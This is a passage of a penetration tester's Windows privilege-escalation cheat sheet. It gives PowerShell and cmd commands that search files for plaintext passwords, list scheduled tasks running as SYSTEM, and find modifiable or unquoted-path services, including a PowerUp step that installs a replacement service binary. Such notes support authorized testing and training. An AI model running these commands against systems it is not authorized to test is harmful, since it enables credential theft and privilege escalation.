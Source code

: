```PowerShell
findstr /si password *.xml *.ini *.txt
```
---
### Scheduled Tasks
***Remember you will not be able to see higher privileged Scheduled Tasks***
```PowerShell
schtasks /query /fo LIST /v # Huge amount of output. Copy to schtask.txt and run command below
cat schtask.txt | grep "SYSTEM\|Task To Run" | grep -B 1 SYSTEM # SYSTEM can be changed to another privileged user

# List all scheduled tasks YOUR USER can see (cannot see higher priv'd)
Get-ScheduledTask | where {$_.TaskPath -notLike "\Microsoft*"} | ft TaskName,TaskPath,State
```

ChatGPT script to search for scheduled tasks authored by or run by a specific user (**`roy`** in this example). Or, check to see if any of these scheduled tasks trigger scripts or executables located in `C:\Users` directory:
```PowerShell
$username = "roy" # CHANGE ME
$userDirectory = "C:\\Users\\"

$tasks = schtasks /query /fo LIST /v | Out-String
$tasksArray = $tasks -split "(?m)^\s*$"  # Split tasks by empty lines

$filteredTasks = @()

foreach ($task in $tasksArray) {
    if ($task -match "Author:\s+" + [regex]::Escape($username) -or 
        $task -match "Run As User:\s+" + [regex]::Escape($username) -or 
        $task -match "Task To Run:\s+" + [regex]::Escape($userDirectory)) {
        $filteredTasks += $task.Trim()
    }
}

# Output the filtered tasks
$filteredTasks | Out-Host
```
---
## Services
### Enumerate Running Services (don't forget to enumerate ALL)
```PowerShell
# PowerUp.ps1 (services that can be modified)
Get-ModifiableServiceFile # View the recommended action in "AbuseFunction"
Install-ServiceBinary -Name 'mysql'

# Look for services NOT in C:\Windows\
Get-CimInstance -ClassName win32_service | Select Name,StartName,State,PathName | Where-Object {$_.State -like 'Running'}

# Goated technique for enumerating unquoted service paths
# Must be run with cmd.exe
wmic service get name,pathname | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
# Follow-up with "sc.exe qc <name>" and "sc.exe query <name>" below
```
### `icacls` to check permissions for service binary


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami